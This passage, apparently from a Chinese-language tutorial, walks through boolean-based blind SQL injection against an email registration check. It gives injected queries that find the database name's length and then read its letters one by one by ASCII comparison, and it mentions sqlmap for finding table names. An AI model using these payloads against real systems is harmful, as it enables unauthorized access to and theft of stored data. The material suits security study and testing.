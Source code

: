 ```
 select * from user where email='1@1.com' 
 or length(database())=4 limit 1 -- a'
 ```
> 输出:该邮箱已被注册 //true,库名长度为4


#### step2: ascii码爆破库名
 ```
 select * from user where email='1@1.com' or ascii(SUBSTR(database(),1,1))=117 limit 1 -- a'
 ```
> 第1位为：u

 ```
 select * from user where email='1@1.com' or ascii(SUBSTR(database(),2,1))=115 limit 1 -- a'
 ```
> 第2位为：s

 ```
 select * from user where email='1@1.com' or ascii(SUBSTR(database(),3,1))=101 limit 1 -- a'
 ```
> 第3位为：e

 ```
 select * from user where email='1@1.com' or ascii(SUBSTR(database(),4,1))=114 limit 1 -- a'
 ```
> 第4位为：r

### 爆破表名
思路和库名差不多，略微繁琐，了解一种以应万变即可，实战用sqlmap跑表名与字段。

